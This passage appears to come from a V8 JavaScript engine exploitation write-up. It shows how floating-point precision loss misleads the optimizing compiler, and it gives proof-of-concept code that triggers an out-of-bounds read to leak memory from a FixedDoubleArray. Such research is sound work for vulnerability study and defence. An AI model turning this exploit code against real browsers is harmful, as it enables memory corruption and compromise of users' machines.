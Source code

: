 Now we get a delta of 8.

Or maybe we could amplify even more the precision loss using other operators?

```text
d8> var x = Number.MAX_SAFE_INTEGER + 1
undefined
d8> 10 * (x + 1 + 1)
90071992547409920
d8> 10 * (x + 2) 
90071992547409940
```

That gives us a delta of 20 because `precision_loss * 10 = 20` and the precision loss is of `2`.

## Step 0 : Corrupting a FixedDoubleArray

First, we want to observe the memory layout to know what we are leaking and what we want to overwrite exactly. For that, I simply use my [custom](https://github.com/JeremyFetiveau/debugging-tools/tree/master/v8_doare-helpers) `%DumpObjects` v8 runtime function.
Also, I use an `ArrayBuffer` with two views: one `Float64Array` and one `BigUint64Array` to easily convert between 64 bits floats and 64 bits integers.

```javascript
let ab = new ArrayBuffer(8);
let fv = new Float64Array(ab);
let dv = new BigUint64Array(ab);

let f2i = (f) => {
  fv[0] = f;
  return dv[0];
}

let hexprintablei = (i) => {
  return (i).toString(16).padStart(16,"0");
}

let debug = (x,z, leak) => {
  print("oob index is " + z);
  print("length is " + x.length);
  print("leaked 0x" + hexprintablei(f2i(leak)));
  %DumpObjects(x,13); // 23 & 3 to dump the jsarray's elements
};

let opt_me = (x) => {
  let arr = new Array(1.1,1.2,1.3);
  arr2 = new Array(42.1,42.0,42.0);
  let y = (x == "foo") ? 4503599627370495 : 4503599627370493;
  let z = 2 + y + y ; // 2 + 4503599627370495 * 2 = 9007199254740992
  z = z + 1 + 1;
  z = z - (4503599627370495*2); 
  let leak = arr[z];
  if (x == "foo")
    debug(arr,z, leak);
  return leak;
}

opt_me("");
%OptimizeFunctionOnNextCall(opt_me);
let res = opt_me("foo");
```
